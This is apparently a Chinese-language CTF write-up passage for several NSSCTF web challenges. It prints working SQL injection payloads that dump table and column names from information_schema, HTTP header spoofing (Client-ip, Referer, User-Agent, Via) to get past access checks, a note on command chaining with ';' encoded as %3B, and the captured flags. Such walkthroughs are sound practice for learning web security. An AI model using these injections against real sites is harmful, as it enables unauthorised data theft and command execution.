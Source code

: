 ![](https://s2.loli.net/2024/03/07/nBcPotblrLgGCMY.png)

复现只看 flag 的库：ctftraining

`爆表:?id=1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining' --+`

![](https://s2.loli.net/2024/03/07/5IJyrtN7u2aDkiT.png)

`爆列：?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema = 'ctftraining' --+`

![](https://s2.loli.net/2024/03/07/Q7w6esVGjJcdnOf.png)

**得知flag列在ctftraining库的flag表中，那么将这个列的信息抓出来看看**

![](https://s2.loli.net/2024/03/07/53rMjSlQKUtveYq.png)

**NSSCTF{3dbfe5bc-0522-4019-aabb-0281184cbf45} **

### 彩蛋 4：

**搜索2就行**

![](https://s2.loli.net/2024/03/07/8dpgRIN5hy4KnvH.png)

**F1rst_to_Th3_eggggggggg!**

###   Http pro max plus（wp 复现）

1. Client-ip: 127.0.0.1 伪造本地访问
2. Referer: pornhub.com 伪造来源网址
3. User-Agent: Chrome 伪造使用的浏览器
4. via: Clash.win 伪造代理服务器地址

![](https://s2.loli.net/2024/03/07/WKb7rxtzkf8jJHd.png)

访问/wtfwtfwtfwtf.php

![](https://s2.loli.net/2024/03/07/4VsljWEr9xvTXKn.png)

按钮都是无用项，在源码注释处找到 hint

![](https://s2.loli.net/2024/03/07/96zqoNiRKejM1hD.png)

**访问/sejishikong.php**

![](https://s2.loli.net/2024/03/07/GEqzmUBw8ldPIZ3.png)

**NSSCTF{82fca04a-f925-4382-bff5-4fea98e39196}**

### Ping

**这里展示    ； --->  %3B
‘cmd1;cmd2   无论前面执行是否成功后面都继续执行’**
